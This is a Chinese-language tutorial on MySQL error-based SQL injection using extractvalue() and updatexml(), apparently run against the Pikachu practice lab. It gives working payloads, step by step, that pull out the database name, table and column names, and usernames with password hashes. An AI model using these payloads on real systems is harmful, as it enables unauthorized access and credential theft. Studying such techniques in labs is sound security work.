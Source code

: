 ### 1、基础知识：
#### mysql中，16进制在语句在执行过程中，不需要加引号
![image](https://github.com/498946975/Security/blob/master/images/sql_27.png)
![image](https://github.com/498946975/Security/blob/master/images/sql_28.png)
```sql
select '~' == select 0x7e
```
#### group_concat和concat
```yaml
group_concat: 把同一列的，多行，拼接到一起
concat: 把同一行的，多个数据，拼接到一起
concat_ws(0x7e,user,password): 把同一行的user和password，多个数据，拼接到一起，没个数据之间用"～"作为分隔符
```
```sql
SELECT concat(username,create_date) FROM `user` WHERE id = 1;
```
![image](https://github.com/498946975/Security/blob/master/images/sql_29.png)
#### mysql中extractvalue函数
```yaml
extractvalue函数，在执行过程中，会解析sql语句，并返回
```
```shell script
extractvalue(x,y)
x: xml文件的名称，在注入的过程中随便写
y: xml文件的路径，concat(0x7e,sql语句)
```
#### limit函数
```sql
limit 1,1 #  从第一个开始返回，返回1个
limit 2,1 #  从第二个开始返回，返回1个
```

### 2、所有sql注入的逻辑
```shell script
爆库名-->爆表名-->爆列名-->最后才能得到数据
```
### 3、爆库名称
```sql
SELECT username FROM `user` WHERE id='1' AND extractvalue (1,concat(0x7e,DATABASE ()));#
```
```sql
1' and extractvalue(1,concat(0x7e,database()));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_32.png)
### 4、爆表的数量
```sql
表的数量
SELECT COUNT(table_name) FROM information_schema.`TABLES` WHERE table_schema = DATABASE()
```
```sql
爆破语句
1' AND extractvalue (1, concat(0x7e,(SELECT COUNT( table_name ) FROM information_schema.`TABLES` WHERE table_schema = DATABASE ())));#'
```
![image](https://github.com/498946975/Security/blob/master/images/sql_30.png)
```yaml
XPATH syntax error: '~5'
其中，5，就是爆破出来的表的个数
```
### 5、爆表名称
```sql
SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1
```
```sql
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1 )));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_31.png)
#### 总共5个表，分别爆破出来名称是
```sql
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 1,1 )));# member
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 2,1 )));# message
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 3,1 )));# users
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 4,1 )));# xssblind
1' AND extractvalue (1, concat(0x7e,(SELECT table_name FROM information_schema.`TABLES` WHERE table_schema = DATABASE () LIMIT 0,1 )));# httpinfo
```

### 6、爆users表中，列的数量和名称
```sql
users表中的列的数量
1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where  table_schema = DATABASE () and table_name='users')));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_33.png)
```sql
users表中，第一列的名称
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 0,1)));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_34.png)
#### 总共4列，分别爆破出来的名称是
```sql
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 0,1)));# id
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 1,1)));# username
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 2,1)));# password
1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where  table_schema = DATABASE () and table_name='users' limit 3,1)));# level
```
### 7、爆破users表的具体数据
#### 先得到id这一列的数据
```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(id) from users )));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_35.png)
#### 再分别得到id=1，2，3的用户名和密码
```sql
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=1)));# admine10adc3949ba59abbe56e057f2
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=2)));# pikachu670b14728ad9902aecba32e2
1' and extractvalue(1,concat(0x7e,(select concat(username,password) from users where id=3)));# teste99a18c428cb38d5f2608536789
```
#### 由于报错的位置显示字符数量有限，可以使用substr()函数
```sql
SUBSTR(显示的内容 FROM 1 FOR 4) 	# 从第1个开始的，显示到第4个字符
```
```sql
1' and extractvalue(1,concat(0x7e,(select SUBSTR(concat(username,password) FROM 1 FOR 4) from users where id=1)));#
```
![image](https://github.com/498946975/Security/blob/master/images/sql_36.png)

### 8、updatexml()这个sql函数也可以使用sql报错注入
```sql
updatexml(x, y, z)
x: 随便写
y: sql语句
z: 随便写
```